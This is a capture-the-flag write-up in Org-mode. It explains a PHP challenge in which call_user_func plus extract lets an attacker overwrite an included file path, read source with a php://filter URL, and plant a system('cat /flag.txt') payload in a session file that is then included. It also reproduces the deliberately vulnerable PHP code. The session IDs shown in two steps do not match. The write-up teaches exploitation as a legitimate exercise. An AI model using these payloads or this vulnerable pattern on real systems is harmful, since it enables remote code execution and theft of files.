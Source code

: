 #+TITLE: Advent of CTF - Challenge 21
#+SUBTITLE: "Obscure Sessions"

* Challenge

Todays challenge is based on that of the XCTF Final 2018 BestPHP. I thought it was such a neat trick that I wanted to share it with you. The challenge is about the affects a well intended PHP ability can have. What you will learn:

- The =call_user_func= function
- The =extract= function
- PHP sessions

* Solution
:PROPERTIES:
:ATTACH_DIR: /home/arjen/Projects/credmp.github.io/writeups/advent-of-ctf/challenge-21/index_att
:END:

The challenge starts with a listing of code. 

#+CAPTION: Start of the challenge
[[file:index_att/challenge-start.png]]

The code that is listed is reproduced below. Most notably, in the first section =ini_set= is used to limit where PHP is allowed to read files. Next the =$function= is set to the parameter =function= from the URL. This function is passed to the =call_user_func= function, which according to the documentation does the following:

#+begin_quote
call_user_func — Call the callback given by the first parameter
#+end_quote

After that call, whatever is in the =$file= parameter will be included. The end of the function actually calls =start_session= to persist the =name= POST parameter for later use.

#+CAPTION: The code from the challenge
#+begin_src php
<?php
error_reporting(0);

ini_set('display_errors', 0);
ini_set('open_basedir', '/var/www/html:/tmp');

# Make sure no evil things are passed in the URL
$file = 'filters.php';
$func = isset($_GET['function'])?$_GET['function']:'filters';
call_user_func($func,$_GET);
include($file);

# Save the name for later
session_start();
if ($_POST["name"]){
    $_SESSION["name"] = $_POST["name"];
}

header("Location: /index.php");
exit();
?>
#+end_src

so, how can this be leveraged? In PHP there is a function called =extract=. The documentation says the following about it:

#+begin_quote
extract — Import variables into the current symbol table from an array
#+end_quote

A little further down in the documentation is a warning about its use:

#+begin_quote
Warning Do not use extract() on untrusted data, like user input (e.g. $_GET, $_FILES).
#+end_quote

Why is this? Well, the function will "import" variables into the current scope from the array passed. So if an array is passed with a =file= key, that entry will overwrite whatever is in =$file=. To try this out, lets extract the =index.php= file using a =base64= encoder as we have used in the past.

#+CAPTION: Extracting the index.php as Base64
#+begin_src
https://21.adventofctf.com/get_flag.php?function=extract&file=php://filter/convert.base64-encode/resource=index.php
#+end_src

Retrieving the flag will not work, as it is outside the base path. You will however find out that in =/tmp= the session files are stored. This can be leverated as you have the ability to add something to the session through the =name= post parameter. In the curl command below the PHP expression =<?== is called, which will echo the result of the function call inside of it, in this case the =system= call. You have to use =system= as it is not possible for regular PHP functions to read outside of the base path.

#+CAPTION: Adding the payload
#+begin_src
curl -v -X POST -d "name=<?=system('cat /flag.txt');?>" https://21.adventofctf.com/get_flag.php
#+end_src

In the output it is important to note the =PHPSESSID=, as that session will contain the payload.

#+CAPTION: Identifying the session
#+begin_src
< Set-Cookie: PHPSESSID=232acdf771eaf2d75c03d7ef31960ce9; path=/
#+end_src

The last step is to use =extract= to override the =file= variable and point it to the session that is stored with the payload.

#+CAPTION: Invoking the payload
#+begin_src
https://21.adventofctf.com/get_flag.php?function=extract&file=/tmp/sess_dc0c104933094ad8d0afcf7d2a778cd9
#+end_src

It will end up printing the payload to the screen.

#+CAPTION: The flag
[[file:index_att/the-flag.png]]

Be sure to also grab the badge!

[[./index_att/badge.png]]

Go back to the [[../../../index.org][homepage]].
